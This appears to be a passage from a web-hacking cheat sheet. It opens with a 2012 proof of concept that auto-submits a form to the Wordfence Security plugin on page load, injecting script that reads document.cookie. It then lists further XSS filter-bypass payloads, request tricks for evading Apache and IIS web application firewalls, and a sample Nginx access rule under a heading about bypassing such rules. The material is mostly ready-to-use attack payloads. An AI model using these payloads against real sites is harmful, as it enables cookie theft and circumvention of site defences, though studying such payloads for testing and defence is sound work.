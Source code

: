 ```javascript
<head>
<title>Wordfence Security XSS exploit (C) 2012 MustLive. 
http://websecurity.com.ua</title>
</head>
<body onLoad="document.hack.submit()">
<form name="hack" action="http://site/?_wfsf=unlockEmail" method="post">
<input type="hidden" name="email" 
value="<script>alert(document.cookie)</script>">
</form>
</body>
</html>

// Other XSS Bypasses
<meter onmouseover="alert(1)"
'">><div><meter onmouseover="alert(1)"</div>"
>><marquee loop=1 width=0 onfinish=alert(1)>
```

## Apache Generic
```javascript
// Writing method type in lowercase
get /login HTTP/1.1
Host: favoritewaf.com
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
```

## IIS Generic
```javascript
// Tabs before method
    GET /login.php HTTP/1.1
Host: favoritewaf.com
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
```

# Bypassing Nginx ACL Rules
Nginx restriction example:
```bash
location = /admin {
    deny all;
}

location = /admin/ {
    deny all;
}
```
## NodeJS
![nodejs](https://github.com/Mehdi0x90/Web_Hacking/assets/17106836/8bd4e562-49e4-426f-aa27-353e9288b9cc)
